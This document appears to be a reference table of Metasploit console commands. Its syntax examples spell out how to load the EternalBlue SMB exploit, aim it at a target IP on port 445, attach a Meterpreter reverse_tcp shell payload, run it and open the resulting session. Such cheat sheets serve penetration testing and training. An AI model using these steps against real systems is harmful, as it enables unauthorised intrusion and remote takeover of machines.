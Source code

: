 <h3>Metasploit</h3>
<table border="1" cellspacing="0" cellpadding="4">
  <thead>
    <tr>
      <th>Command/Flag</th>
      <th>Syntax Example</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>msfconsole</code></td>
      <td><code>msfconsole</code></td>
      <td>Launches the Metasploit Framework console.</td>
    </tr>
    <tr>
      <td><code>use [module]</code></td>
      <td><code>use exploit/windows/smb/ms17_010_eternalblue</code></td>
      <td>Loads a specific exploit or auxiliary module.</td>
    </tr>
    <tr>
      <td><code>set RHOSTS [ip]</code></td>
      <td><code>set RHOSTS 192.168.1.100</code></td>
      <td>Sets the target IP address.</td>
    </tr>
    <tr>
      <td><code>set RPORT [port]</code></td>
      <td><code>set RPORT 445</code></td>
      <td>Sets the target port.</td>
    </tr>
    <tr>
      <td><code>set PAYLOAD [payload]</code></td>
      <td><code>set PAYLOAD windows/x64/meterpreter/reverse_tcp</code></td>
      <td>Specifies the payload to use.</td>
    </tr>
    <tr>
      <td><code>exploit</code></td>
      <td><code>exploit</code></td>
      <td>Executes the loaded module against the target.</td>
    </tr>
    <tr>
      <td><code>sessions -l</code></td>
      <td><code>sessions -l</code></td>
      <td>Lists active sessions.</td>
    </tr>
    <tr>
      <td><code>sessions -i [id]</code></td>
      <td><code>sessions -i 1</code></td>
      <td>Interacts with a specific session (session ID 1).</td>
    </tr>
    <tr>
      <td><code>back</code></td>
      <td><code>back</code></td>
      <td>Returns to module selection from the current context.</td>
    </tr>
    <tr>
      <td><code>search [term]</code></td>
      <td><code>search eternalblue</code></td>
      <td>Searches for modules matching the given term.</td>
    </tr>
  </tbody>
</table>
